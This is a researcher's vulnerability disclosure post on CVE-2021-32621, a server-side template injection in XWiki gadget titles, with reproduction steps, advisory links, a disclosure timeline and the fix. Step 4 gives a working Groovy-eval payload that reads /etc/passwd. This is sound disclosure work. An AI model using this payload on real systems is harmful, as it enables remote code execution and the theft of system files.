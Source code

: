 ```yaml
---
layout: post
title:  "XWiki Platform RCE via gadget titles in the dashboard (CVE-2021-32621)"
date:   2021-06-17 19:07:56 +0300
categories: cve
---
```


It all started with [Users with SCRIPT right can access the application server instance manager and create arbitrary Java objects through $request binding](https://github.com/xwiki/xwiki-platform/security/advisories/GHSA-7qw5-pqhc-xm4g). I tried other fields where similar payload for Server-Side Template Injection could work and found one more.

## Short description:

Registered users are able to execute server side code via gadget title (Server-Side Template Injection).

## Links:

- [Script injection without script or programming rights through Gadget titles](https://github.com/xwiki/xwiki-platform/security/advisories/GHSA-h353-hc43-95vc)
- [XWIKI-17794](https://jira.xwiki.org/browse/XWIKI-17794)
- [CVE-2021-32621](https://nvd.nist.gov/vuln/detail/CVE-2021-32621)

## Details:

Full path to reproduce:

1. Open XWiki platform (I used http://playground.xwiki.org/ and local installation using docker image)
2. Go to profile -> Edit -> My dashboard -> Add gadget
3. Choose any gadget (e.g. content or python).
4. Paste following payload into title (one line): ```$request.getServletContext().getAttribute("org.apache.tomcat.InstanceManager")
.newInstance("javax.script.ScriptEngineManager").getEngineByName("groovy").eval("new File('/etc/passwd').text")```
5. Submit the gadget

[![rce_gadget_title_playground_xwiki_org](/images/rce_gadget_title_playground_xwiki_org.png)](/images/rce_gadget_title_playground_xwiki_org.png)

Fix in source code: [XWIKI-17794: Properly interpret velocity in gadget titles](https://github.com/xwiki/xwiki-platform/commit/bb7068bd911f91e5511f3cfb03276c7ac81100bc). So now evaluation of title is wrapped with check for user right 'SCRIPT'.


## Timeline:

1. 14 Sep 2020 - reported to XWiki team
2. 12 Jan 2021 - confirmed and fixed
3. 18 May 2021 - published
4. 28 May 2021 - CVE assigned

## Acknowledgement

Thanks to [d4d](https://twitter.com/d4d89704243) for helping with working payload.
